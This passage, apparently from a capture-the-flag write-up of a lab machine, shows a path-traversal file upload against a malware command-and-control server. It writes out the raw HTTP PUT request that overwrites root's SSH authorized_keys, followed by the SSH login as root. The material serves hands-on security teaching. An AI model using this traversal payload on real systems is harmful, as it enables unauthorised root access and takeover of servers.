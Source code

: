     --------------------------184989c6c833691c--



It still reports success. And, given that it's likely writing in the
system root at this point, it's likely that the C2 is running as root.

If I try to write to a folder that doesn't exist (like
`../0xdf-folder`), it returns:



    {"message":"Internal Server Error"}



#### SSH

It seems not uncommon for malware C2 to run as root, so I'll try
overwriting the `authorized_keys` file for root:



    PUT /file_upload/ HTTP/1.1
    Host: spooktrol.htb
    User-Agent: curl/7.74.0
    Accept: */*
    Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
    Content-Length: 247
    Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
    Connection: close

    --------------------------184989c6c833691c
    Content-Disposition: form-data; name="file"; filename="../../../../../../../root/.ssh/authorized_keys"
    Content-Type: text/plain

    this is some test data

    --------------------------184989c6c833691c--



Again, it reports success. I'll try again with my public key as the body
of the file.

It doesn't allow me to SSH as root on port 22:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.11.123
    Warning: Permanently added '10.10.11.123' (ECDSA) to the list of known hosts.
    root@10.10.11.123's password:



But it does on TCP 2222:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen -p 2222 root@10.10.11.123
    ...[snip]...
    root@spook2:~#

